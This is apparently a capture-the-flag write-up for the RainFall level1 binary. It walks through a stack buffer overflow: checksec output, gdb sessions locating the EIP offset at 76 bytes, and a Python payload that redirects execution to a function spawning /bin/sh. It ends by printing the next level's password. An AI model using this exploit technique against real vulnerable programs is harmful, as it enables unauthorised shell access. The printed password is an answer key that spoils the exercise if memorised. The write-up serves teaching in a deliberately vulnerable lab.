 ## Exploring the Computer

```bash
GCC stack protector support:            Enabled
Strict user copy checks:                Disabled
Restrict /dev/mem access:               Enabled
Restrict /dev/kmem access:              Enabled
grsecurity / PaX: No GRKERNSEC
Kernel Heap Hardening: No KERNHEAP
System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level1/level1
```

```bash 
level1@RainFall:~$ ./level1 
a
level1@RainFall:~$ ./level1 
423
```

We have an executable that quits after given an argument. 


```bash 
info functions
All defined functions:
Non-debugging symbols:
[...]
0x08048444  run
0x08048480  main
[...]
```

Let's look at the main and run functions in detail in [asm_analysis](./Ressources/asm_analysis.md)

# Our goal 

We are going to overflow the main, so that the return address is the address of the run which will call /bin/sh giving us to a terminal where we will be able to call cat on the .passwd file. 


## Buffer overflow

```bash 
set args < <(python -c 'print "A" * 80')
(gdb) run
Starting program: /home/user/level1/level1 < <(python -c 'print "A" * 80')

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()

info registers
esp            0xbffff740	0xbffff740
ebp            0x41414141	0x41414141
[...]
eip            0x41414141	0x41414141
[...]
```

EIP is overwritten, good. Let's remove 4 bytes to check if EIP start at 76. 

```bash 
set args < <(python -c 'print "A" * 76')

Program received signal SIGILL, Illegal instruction.
0xb7e45400 in __libc_start_main () from /lib/i386-linux-gnu/libc.so.6
```

The last 4 bytes of the payload will be the address of the function "run" for calling it instead of EIP

The address of the "run" function is "0x08048444" has seen above, that we will convert to little endian

```bash
$ python -c 'print "B"*76+"\x44\x84\x04\x08"' > /tmp/payload
level1@RainFall:~$ cat /tmp/payload - | ./level1
Good... Wait what?
$ cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
